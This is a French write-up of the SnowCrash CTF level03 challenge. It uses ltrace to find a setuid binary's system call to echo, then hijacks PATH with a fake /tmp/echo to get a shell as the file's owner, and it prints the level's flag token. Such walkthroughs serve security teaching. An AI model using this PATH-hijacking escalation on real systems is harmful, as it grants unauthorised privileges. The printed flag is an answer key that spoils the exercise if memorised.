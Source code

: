 On trouve dans le dossier **home** un binaire **level03** qui, lorsqu'on le lance, nous affiche un message:
<pre><code>> ./level03
Exploit me</code></pre>

On cherche à savoir ce que le binaire fait, pour cela on utilise **ltrace**:
<pre><code>> ltrace ./level03
__libc_start_main(0x80484a4, 1, 0xbffff7f4, 0x8048510, 0x8048580
getegid()											= 2003
geteuid()											= 2003
setresgid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
setresuid(2003, 2003, 2003, 0xb7e5ee55, 0xb7fed280) = 0
system("/usr/bin/env echo Exploit me"Exploit me
--- SIGCHLD (Child exited) ---
<... system resumed> )
</code></pre>
On observe que le binaire fait un appel **system** pour faire un **echo**

Du coup nous essayons de changer cet appel pour avoir accès à un shell avec les permissions de l'owner:

<pre><code>> echo "/bin/bash" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>
> Nous remplaçons le **/bin/echo** par un **/bin/bash** pour lancer une nouvelle instance de bash avec des droits plus élevés (ceux de l'owner).


On relance notre binaire:
<pre><code>> ./level03</code></pre>

Notre user passe de <code>level03@SnowCrash</code> à <code>flag03@SnowCrash</code>

Donc notre user a bien changé.

<pre>
<code>> getflag</code>
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</pre>
> La commande **getflag** est la seule commande que nous pouvons faire, bien évidemment, sinon il nous serait possible de faire ce que l'on veut sur l'ISO.


## Alternative

<pre><code>> echo "/bin/getflag" > /tmp/echo
> chmod 777 /tmp/echo && export PATH=/tmp:$PATH
</code></pre>

On relance notre binaire:
<pre><code>> ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
</code></pre>